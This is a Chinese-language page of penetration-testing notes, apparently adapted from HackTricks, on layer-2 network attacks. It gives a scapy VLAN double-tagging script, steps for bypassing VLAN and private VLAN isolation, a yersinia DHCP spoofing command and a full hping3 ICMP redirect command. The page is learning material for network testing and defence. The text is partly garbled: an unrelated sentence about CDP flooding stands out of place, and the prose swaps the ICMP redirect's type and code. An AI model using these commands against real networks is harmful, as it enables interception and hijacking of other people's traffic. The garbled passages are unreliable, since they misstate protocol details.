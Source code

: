 如果攻击者知道受害主机的MAC、IP和VLAN ID的值，他可以尝试使用其指定的VLAN和受害主机的VLAN对帧进行双重标记，并发送数据包。由于受害者无法与攻击者重新连接，因此攻击者的最佳选择是通过 UDP 与可以执行一些有趣操作（如 SNMP）的协议进行通信。

攻击者的另一种选择是启动TCP端口扫描，欺骗由攻击者控制并由受害者访问的IP（可能通过互联网）。然后，如果攻击者从受害者那里收到一些数据包，攻击者可以嗅探他拥有的第二台主机。

![](https://book.hacktricks.xyz/~gitbook/image?url=https:%2F%2F129538173-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252F-L_2uGJGU7AVNRcqRvEi%252Fuploads%252FHHYuR9d580W7O081ip6n%252Fimage.png%3Falt=media%26token=b293aa52-b32c-407c-a5fb-a6cde8cca7ad&width=768&dpr=4&quality=100&sign=a560fb3c83b695c1bd6ec08fce46a9e073f4cd8d957084b7af2dacb30a7f889d)

要执行此攻击，您可以使用 scapy： `pip install scapy`
```
from scapy.all import *
# Double tagging with ICMP packet (the response from the victim isn't double tagged so it will never reach the attacker)
packet = Ether()/Dot1Q(vlan=1)/Dot1Q(vlan=20)/IP(dst='192.168.1.10')/ICMP()
sendp(packet)
```

#### Lateral VLAN Segmentation Bypass
如果您有权访问直接连接到的交换机，则可以绕过网络内的 VLAN 分段。只需将端口切换到中继模式（也称为中继），使用目标 VLAN 的 ID 创建虚拟接口，然后配置 IP 地址即可。您可以尝试动态请求地址 （DHCP），也可以静态配置它。这取决于具体情况。

[Lateral VLAN Segmentation Bypass](https://book.hacktricks.xyz/generic-methodologies-and-resources/pentesting-network/lateral-vlan-segmentation-bypass)

#### Layer 3 Private VLAN Bypass 第 3 层专用 VLAN 旁路

在某些环境（如访客无线网络）中，实施了端口隔离（也称为专用 VLAN）设置，以防止连接到无线接入点的客户端直接相互通信。但是，已经确定了一种可以规避这些隔离措施的技术。此技术利用缺少网络 ACL 或其配置不当，使 IP 数据包能够通过路由器路由到同一网络上的另一个客户端。

攻击是通过创建一个数据包来执行的，该数据包带有目标客户端的 IP 地址，但具有路由器的 MAC 地址。这会导致路由器错误地将数据包转发到目标客户端。此方法类似于双重标记攻击中使用的方法，在双重标记攻击中，控制受害者可访问的主机的能力用于利用安全漏洞。

**Key Steps of the Attack: 攻击的关键步骤：**

1. **Crafting a Packet:** A packet is specially crafted to include the target client's IP address but with the router's MAC address.  
    制作数据包：数据包经过特殊设计，包含目标客户端的 IP 地址，但包含路由器的 MAC 地址。
    
2. **Exploiting Router Behavior:** The crafted packet is sent up to the router, which, due to the configuration, redirects the packet to the target client, bypassing the isolation provided by private VLAN settings.  
    利用路由器行为：构建的数据包被发送到路由器，由于配置的原因，路由器会将数据包重定向到目标客户端，绕过专用 VLAN 设置提供的隔离。
    


在这次攻击中，交换机的 CPU 和 CDP 邻居表负担沉重，由于资源消耗过多，导致通常所说的“网络瘫痪”。
## **嗅探诱骗**
攻击者配置网络新成员的所有网络参数（GW、IP、DNS），发送虚假的DHCP响应。
```
Ettercap
yersinia dhcp -attack 2 #More parameters are needed
```
### ARP 欺骗

查看[上一节]([[枚举(Enumeratiton)#ARP 欺骗]])。
### ICMP重定向
ICMP 重定向包括发送 ICMP 数据包类型 1 代码 5，指示攻击者是访问 IP 的最佳方式。然后，当受害者想要联系 IP 时，它会通过攻击者发送数据包。
```
Ettercap
icmp_redirect
hping3 [VICTIM IP ADDRESS] -C 5 -K 1 -a [VICTIM DEFAULT GW IP ADDRESS] --icmp-gw [ATTACKER IP ADDRESS] --icmp-ipdst [DST IP ADDRESS] --icmp-ipsrc [VICTIM IP ADDRESS] #Send icmp to [1] form [2], route to [3] packets sent to [4] from [5]
```

